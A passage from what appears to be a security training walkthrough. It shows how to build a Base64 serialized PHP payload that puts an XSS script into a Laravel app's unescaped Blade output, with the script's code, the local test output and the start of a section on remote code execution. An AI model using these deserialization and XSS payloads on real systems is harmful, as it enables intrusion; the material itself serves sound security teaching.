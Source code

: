 Laravel uses the [Blade templating engine](https://laravel.com/docs/9.x/blade) for rendering its pages, and usually, when we are displaying variables in templates, we enclose them with `{{ ... }}`. We can check the [documentation](https://laravel.com/docs/9.x/blade#displaying-unescaped-data) and see that enclosing a variable in `{!! ... !!}` means it will not be run through `htmlspecialchars` before being displayed.

User-controlled data, which is displayed back to us without being escaped, is a perfect scenario for XSS, so we can update our `exploit.php` file to verify this vulnerability by setting the `Name` field to `<script>alert(1)</script>`:

```php
...
echo base64_encode(serialize(new \App\Helpers\UserSettings('<script>alert(1)</script>', '[email protected]', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg')));

```

Running `exploit.php` again, we get another Base64-encoded payload:

```shell
php exploit.php

TzoyNDoiQXBwXEhlbHBlcnNcVXNlclNld...SNIP...x0LmpwZyI7fQ==

```

Local testing confirms the payload works as expected:

```shell
php target.php

TzoyNDoiQXBwXEhlbHBlcnNcVXNlclNld...SNIP...x0LmpwZyI7fQ==

$user->name = <script>alert(1)</script>
$user->email = [email protected]
$user->password = $2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda
$user->profile_pic = default.jpg

ie-message => Imported settings for '<script>alert(1)</script>'

```

We can take this payload, and when we import it into the system, we should get a pop-up window signifying a successful `reflected XSS` attack.

![](sbcvtE7BR6mc.png)


# RCE: Magic Methods

* * *

## Magic Methods

In the previous section, we identified that we could give ourselves an `@htbank.com` email address and found an XSS vulnerability. As the last step, we will try to get remote code execution on the server.
